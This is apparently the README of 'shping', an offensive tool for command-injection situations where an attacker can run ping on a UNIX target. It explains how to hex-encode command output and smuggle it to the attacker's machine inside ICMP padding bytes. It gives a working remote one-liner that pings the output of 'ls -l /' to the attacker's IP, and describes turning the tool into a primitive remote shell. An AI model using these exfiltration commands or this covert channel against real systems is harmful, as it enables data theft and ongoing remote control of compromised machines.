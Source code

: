 # shping

Got command injection on a UNIX system but the only thing you can do is ping yourself?

Well don't despair. With this little tool you can receive the output of your commands, as well as any other data, inserted in the ping's padding space. From its manual:

```
-p pattern
	You may specify up to 16 “pad” bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, -p ff will cause the sent packet to be filled with all ones.
```

You can even use it as a primitive shell, after setting it up properly.

Does not work with windows ping or any other version that doesn't have that option.

[![asciicast](https://asciinema.org/a/d7dywc998IvhwMQPS2j8sWXVs.svg)](https://asciinema.org/a/d7dywc998IvhwMQPS2j8sWXVs)

## usage

```
↬  python3 shping.py -h
usage: shping.py [-h] [-o outputFile] [-i] targetIP encapChr

Read data sent as padding from unix ping tool through the -p option. Can be
used as just a data receiver or as a primitive shell after implementing the
sendCommand function

positional arguments:
 targetIP              Target IP address
 encapChr              Character to use for encapsulating data. Must be the
					   same character used on the other end

optional arguments:
 -h, --help            show this help message and exit
 -o outputFile, --outfile outputFile
					   Set this if you want to save all the output to a file
 -i, --interactive     Interactive shell mode

```

Note that the data you want to receive must be sent to ping as hex-encoded. This varies based on the tools you have at your disposal, for example you can use xxd or hexdump (see below).

Also, the data you want to receive must be enclosed by a string of 16 identical characters (encapChr parameter). That's for two reasons:

1. To ensure the data is always 16 bytes long. In reality, the padding space is larger, but ping only accepts 16 bytes then repeats part of it, and if you feed it less it will reorder the bytes in a confusing way.
2. To grab the offset where our data starts in the icmp packet.

So on the remote machine you'll want to execute something like this:

```
cont="AAAAAAAAAAAAAAAA""$(ls -l /)""AAAAAAAAAAAAAAAA"; echo -n "$cont" | hexdump -v -e '16/1 "%02x" "\n"' | while read line; do ping -c 1 -p $line 198.51.100.1; done
```

where `198.51.100.1` is your ip (or with `xxd -c 16 -ps` in place of hexdump...), while on your local machine you'll run shping like:
```
python3 shping.py 198.51.100.2 A
```
where `198.51.100.2` is the ip of the remote machine.

## interactive mode

You can directly send and receive commands through shping by implementing the `sendCommand` function to basically do the same thing you'd manually do in the first step above (eg. http get/post). Then just launch shping as before but with the `-i` option and type your commands.

## notes

- only works on ipv4
- no ping -p option = no shping (<- windows)
- there are far better tools to use if you can do more stuff on the remote machine. this is just for the situations where you're strictly limited to basic commands and can't upload/download files to/on the target
